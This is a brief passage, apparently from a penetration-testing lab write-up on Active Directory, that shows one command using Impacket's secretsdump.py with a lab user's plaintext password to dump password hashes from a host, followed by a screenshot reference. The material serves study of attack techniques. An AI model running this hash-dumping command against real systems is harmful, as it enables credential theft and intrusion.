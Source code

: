 **Command to dump hashes** - 
```python
secretsdump.py marvel/fcastle:Password1@192.168.1.18
```
![[AD_post7.png]]
